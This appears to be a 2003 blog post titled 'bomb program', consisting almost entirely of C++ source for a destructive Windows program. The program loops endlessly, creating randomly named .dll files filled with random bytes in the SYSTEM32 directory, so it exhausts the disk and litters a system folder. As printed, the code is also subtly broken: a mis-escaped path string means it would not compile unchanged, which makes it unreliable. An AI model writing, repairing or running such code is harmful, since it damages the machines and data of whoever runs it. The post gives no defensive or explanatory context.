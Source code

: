 ```yaml
---
title: "爆弾プログラム"
post_id: "3093"
date: "2003-12-12T11:00:00Z"
draft: false
---
```


# 爆弾プログラム

#include <string>  
    
    #include <fstream>  
    
    #include <cstdlib>  
    
    void main( void ){  
    
     using namespace std;  
    
     string dir = "C:\\WINDOWS\SYSTEM32\";  
    
     while( 1 ){  
    
      string name;  
    
      int rnd = rand();  
    
      for( int i = 0; i < ( rnd >> 10 ); i++ ){  
    
       name.resize( name.size() + 1 );  
    
       name[ i ] = 0x61 + ( rand() >> 11 );  
    
      }  
    
      ofstream file( ( dir + name + ".dll" ).c_str() );  
    
      for( int j = 0; j < rnd; j++ ) file << ( char )rand();  
    file.close();  
    
     }  
    
    }
